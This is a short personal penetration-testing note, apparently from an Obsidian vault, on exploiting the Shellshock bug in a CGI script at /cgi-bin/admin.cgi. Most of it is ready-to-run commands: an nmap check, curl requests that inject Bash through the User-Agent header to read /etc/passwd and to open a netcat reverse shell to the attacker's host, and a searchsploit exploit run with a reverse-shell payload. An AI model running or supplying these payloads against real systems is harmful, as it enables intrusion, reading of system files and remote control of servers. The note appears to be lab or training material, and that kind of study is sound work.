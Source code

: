 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

Nikto:

![[Pasted image 20220615122716.png]]

`/cgi-bin/admin.cgi`

Check with nmap:
```bash - kali
nmap $TARGET -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

exploit with curl:
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$TARGET/cgi-bin/admin.cgi
```

```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/nc -e /bin/bash $KALI 443" http://$TARGET/cgi-bin/admin.cgi
```

Or use

exploit 34900.py

```bash - kali
searchsploit -m 34900
```

May need to manually edit exploit to include cgi-bin target:

![[Pasted image 20220615123539.png]]

```bash - kali
python 34900.py payload=reverse rhost=$TARGET lhost=$KALI lport=444
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
